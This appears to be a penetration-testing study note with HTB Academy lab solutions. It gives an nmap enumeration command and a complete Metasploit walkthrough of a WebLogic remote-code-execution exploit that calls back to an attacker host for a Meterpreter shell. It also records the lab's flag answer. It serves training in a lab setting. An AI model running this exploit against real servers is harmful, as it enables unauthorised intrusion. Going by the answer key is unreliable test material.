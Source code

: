 # 📝 Other Notable Applications - Quick Reference

> **🎯 Objective:** Reference guide for additional applications commonly encountered during penetration tests with their attack vectors and default credentials.

## Overview

Beyond the main applications covered in this module, penetration testers encounter many other applications in enterprise environments. This reference covers **common vulnerabilities**, **default credentials**, and **attack techniques** for frequently seen applications.

---

## HTB Academy Lab Solutions

### Lab 1: Application Identification
**Question:** "Enumerate the target host and identify the running application. What application is running?"

```bash
# Standard enumeration
nmap -sV -sC target
# Expected: WebLogic server identification
```

### Lab 2: WebLogic RCE Exploitation
**Question:** "Enumerate the application for vulnerabilities. Gain remote code execution and submit the contents of the flag.txt file on the administrator desktop."

#### Method: Metasploit WebLogic RCE
```bash
# Launch Metasploit
msfconsole -q

# Use WebLogic RCE module
use multi/http/weblogic_admin_handle_rce

# Set target options
set RHOSTS STMIP
set SRVHOST PWNIP  
set LHOST PWNIP

# Execute exploit
exploit

# In Meterpreter session:
cat C:/Users/Administrator/Desktop/flag.txt
```

**Answer:** `w3b_l0gic_RCE!`

---